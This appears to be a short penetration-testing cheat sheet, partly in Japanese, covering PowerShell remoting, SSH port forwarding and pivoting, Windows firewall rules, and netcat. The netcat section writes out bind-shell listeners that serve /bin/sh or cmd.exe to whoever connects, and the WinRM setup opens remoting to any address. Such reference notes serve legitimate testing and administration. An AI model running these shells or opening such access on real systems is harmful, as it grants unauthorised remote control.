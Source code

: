 # penetration-wiki

## PS-Session

### Server Settings

- username = `easyduck`
- password = `verystrongpassword`
- hostname = `rhostname`
- ipaddress = `xxx.xxx.xxx.xxx`

```pwsh
Enable-PSRemoting
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
net start WinRM
```

### Client

pattern 1

```pwsh
Enter-PSSession -ComputerName "xxx.xxx.xxx.xxx" -Credential "easyduck"
```

pattern 2

```pwsh
Enter-PSSession -ComputerName "hostname"-Credential "easyduck"
```

## Netcat

## Server Settings

- RPORT = `4444`
- RHOST = `xxx.xxx.xxx.xxx`

```bash
nc -lvp 4444 -e /bin/sh
nc -lvp 4444 -e cmd.exe
```

## Client

```bash
nc xxx.xxx.xxx.xxx 4444
```

## SSH Port Forwarding

### Local forward

remoteを経由してローカルにあるツールをtargetに対して使いたい場合

```
ssh -fNT -L xxx:target:zzz remote
```

### Remote forward

localを経由して外部にあるtargetにremoteからアクセスさせたい場合

```
ssh -fNT -R xxx:remote:zzz target
```

### Dynamic portforwarding

local を起点とし、remote にsshdが立っているとする。 このとき下記のように-Dオプションを指定して接続することで、local から見たlocalhost:1080がSOCKS Proxyとなる。 なお、SOCKS Proxyのポート番号はtcp/1080が標準的に用いられる [RFC 1928]。

on user@local

```
ssh -D 1080 user@remote
```

ここで local のブラウザ設定からlocalhost:1080をSOCKS Proxyとして指定すると、ブラウザからのすべてのアクセスが remote を経由したアクセスとなる。

## Windows Firewall Settings

### with pwsh

https://docs.microsoft.com/ja-jp/windows/security/threat-protection/windows-firewall/windows-firewall-with-advanced-security-administration-with-windows-powershell

```pwsh
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
New-NetFirewallRule -Name <名前> -DisplayName <表示名> -Enabled true -Profile <有効にするプロファイル> -Action Allow -LocalAddress Any -RemoteAddress Any -Protocol TCP -LocalPort 10050 -RemotePort Any
New-NetFirewallRule -name 'DPF' -displayname 'DPF' -enable true -profile any -action allow -LocalAddress Any -RemoteAddress Any -Protocol TCP -LocalPort 1080 -RemotePort Any
# OnWorkgroup
Get-NetFirewallRule -Name FPS-ICMP4-ERQ-In | Set-NetFirewallRule -enabled true
Get-NetFirewallRule -Name FPS-ICMP6-ERQ-In | Set-NetFirewallRule -enabled true
# OnDomain
Get-NetFirewallRule -name  FPS-ICMP4-ERQ-In-NoScope | Set-NetFirewallRule -enable true
Get-NetFirewallRule -name  FPS-ICMP6-ERQ-In-NoScope | Set-NetFirewallRule -enable true
```

### with batch

https://docs.microsoft.com/en-US/troubleshoot/windows-server/networking/netsh-advfirewall-firewall-control-firewall-behavior

```batch
netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes

netsh advfirewall firewall add rule name="My Application" dir=in action=allow program= "C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=domain

netsh advfirewall firewall add rule name="My Application" dir=in action=allow program= "C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=domain
netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=private

netsh advfirewall firewall add rule name= "Open Port 80" dir=in action=allow protocol=TCP localport=80

netsh advfirewall firewall delete rule name= rule name program="C:\MyApp\MyApp.exe"

netsh advfirewall firewall delete rule name= rule name protocol=udp localport=500
  
netsh advfirewall reset
    
netsh advfirewall firewall set rule group="File and Printer Sharing" new enable=Yes
    
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
    	
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
  
netsh advfirewall firewall add rule name="ICMP Allow incoming V4 echo request" protocol=icmpv4:8,any dir=in action=allow
  
netsh advfirewall firewall add rule name= "All ICMP V4" protocol=icmpv4:any,any dir=in action=allow
  
netsh advfirewall firewall add rule name="Block Type 13 ICMP V4" protocol=icmpv4:13,any dir=in action=block

netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
```

